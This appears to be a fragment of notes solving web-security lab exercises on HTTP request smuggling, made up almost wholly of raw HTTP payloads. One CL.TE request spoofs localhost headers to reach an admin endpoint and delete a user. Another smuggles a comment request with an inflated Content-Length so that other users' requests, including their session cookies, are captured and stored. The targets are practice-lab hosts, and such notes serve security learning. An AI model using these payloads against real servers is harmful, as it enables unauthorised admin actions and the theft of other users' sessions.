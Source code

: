 ```http
POST / HTTP/1.1
Host: 0a5d00d6047a7f1382317adb00b200d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 210
Transfer-Encoding: chunked

0


POST / HTTP/1.1
X-Remote-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

search=test
```

Final

```http
POST / HTTP/1.1
Host: 0a5d00d6047a7f1382317adb00b200d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 261
Transfer-Encoding: chunked

0


POST /admin/delete?username=carlos HTTP/1.1
X-Remote-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
X-xTBXBt-Ip: 127.0.0.1

search=test
```

# Lab: Exploiting HTTP request smuggling to capture other users' requests

```http
POST / HTTP/1.1
Host: 0acf00bd04840423849ce12200b8000a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 241
Transfer-Encoding: chunked

0


POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: session=NqXiybHJLEAaGhj2M1udeixBPKqZsQh8
Content-Length: 824

csrf=PHa52g3eA0xshkuuL4u4PWGVq55p37m2&postId=8&name=x&email=a@a.a&website=&comment=
```